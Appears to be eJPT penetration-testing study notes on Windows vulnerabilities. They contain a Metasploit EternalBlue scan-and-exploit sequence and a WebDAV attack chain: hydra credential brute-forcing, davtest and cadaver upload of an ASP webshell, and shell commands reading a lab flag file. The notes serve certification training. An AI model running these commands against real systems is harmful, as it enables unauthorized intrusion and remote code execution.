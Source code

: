 # 09 Vulnerability Assesment

## Overview Of Windows Vulnerabilities
_Windows OS’s developed in C_

- **Information disclosure** (access confidential data)
- **Buffer overflows** (write data to buffer and overrun the allocated buffer, consequently writing data to allocated memory addresses)
- **Remote code execution** (remotely execute code on the target system)
- **Privilege escalation** (elevate privileges)
- **Denial of Service (DOS)** (consume system/host’s resources)

## Frequently Exploited Windows Services

| Protocol/Service                                    | Ports              | Purpose                                                                                                                                                   |
| --------------------------------------------------- | ------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Microsoft IIS** (Internet Information Services)   | TCP ports 80/443   | Proprietary web server software developed by Microsoft that runs on Windows.                                                                              |
| **WebDAV** (Web Distributed Authoring & Versioning) | TCP ports 80/443   | HTTP extension that allows clients to update, delete, move and copy files on a web server. WebDAV is used to enable a web server to act as a file server. |
| **SMB/CIFS** (Server Message Block Protocol)        | TCP port 445       | Network file sharing protocol that is used to facilitate the sharing of files and peripherals between computer on a local network (LAN).                  |
| **RDP** (Remote Desktop Protocol)                   | TCP port 3389      | Proprietary GUI remote access protocol developed by Microsoft and is used to remotely authenticate and interact with a Windows system.                    |
| **WinRM** (Windows Remote Management Protocol)      | TCP ports 5986/443 | Windows remote management protocol that can be used to facilitate remote access with Windows systems.                                                     |
|                                                     |                    |                                                                                                                                                           |

## Vulnerability Scanning with MSF
```bash
PLUGIN: db_autopwn
msf6: load db_autopwn
msf6: db_autopwn -p -t
msf6: db_autopwn -p -t -PI 445
msf6: analyze
msf6: vulns
msf6: workspace -a <name>
msf6: db_nmap -sS -sV -O <ip>
msf6: hosts
msf6: services
msf6: search type:exploit name:<name>
msf6: searchsploit “<name>” | grep -e “Metasploit”
msf6: search eternalblue
msf6: auxiliary /scanner/smb/smb_ms17_010
msf6: exploit /windows/smb/ms17_010_eternalblue
```

## WebDAV Vulnerabilities
Enable a web server to function as a file server.
Run on top Microsoft IIS or Apache.

##### **Exploitation**

- **Identifying** whether it has been configured to run on IIS or Apache
- **Brute-force** to identify legitimate credentials
- **Authenticate** and **upload** malicious .asp payload

###### **Tools**

- **davtest**: used to scan, authenticate and exploit a WebDAV server
- **cadaver**: it supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking on WebDAV servers.

```bash
nmap -sV -sC <ip>
nmap -sV -p 80 —script=http-enum
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.27.131 http-get /webdav/
davtest -url [http://hostname/webdav](http://hostname/webdav)
davtest -auth bob:password_123321
cadaver [http://hostname](http://hostname)[:port]/path
put /usr/share/webshells/asp/webshell.asp
webshell: ls
webshell: dir C:\
webshell: type C:\flag.txt
```

#eJPT #cybersecurity 